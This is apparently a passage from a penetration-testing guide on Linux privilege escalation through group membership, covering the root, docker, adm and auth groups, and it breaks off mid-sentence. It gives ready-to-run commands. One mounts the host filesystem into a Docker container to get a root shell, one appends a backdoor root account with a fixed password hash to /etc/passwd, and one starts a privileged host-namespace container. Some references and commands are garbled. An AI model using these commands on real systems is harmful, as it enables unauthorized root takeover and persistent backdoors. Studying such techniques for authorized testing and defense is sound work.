 It looks like by default members of root group could have access to modify some service configuration files or some libraries files or other interesting things that could be used to escalate privileges...

Check which files root members can modify:

```
find / -group root -perm -g=w 2>/dev/null
```

## Docker Group

You can mount the root filesystem of the host machine to an instance’s volume, so when the instance starts it immediately loads a `chroot` into that volume. This effectively gives you root on the machine.

```
docker image #Get images from the docker service

#Get a shell inside a docker container with access as root to the filesystem
docker run -it --rm -v /:/mnt <imagename> chroot /mnt bash
#If you want full access from the host, create a backdoor in the passwd file
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /etc/passwd

#Ifyou just want filesystem and network access you can startthe following container:
docker run --rm -it --pid=host --net=host --privileged -v /:/mnt <imagename> chroot /mnt bashbash
```

Finally, if you don't like any of the suggestions of before, or they aren't working for some reason (docker api firewall?) you could always try to run a privileged container and escape from it as explained here:

If you have write permissions over the docker socket read .

GitHub - KrustyHack/docker-privilege-escalation: A docker example for privilege escalationGitHubPrivilege escalation via Dockerchrisfosterelli## lxc/lxd Group

## Adm Group

Usually members of the group `adm` have permissions to read log files located inside /var/log/.
Therefore, if you have compromised a user inside this group you should definitely take a look to the logs.

## Auth group

Inside OpenBSD the auth group usually can write in the folders /etc/skey and /var/db/yubikey if they are used.
These permissions may be abused with the following exploit to escalate privileges to root: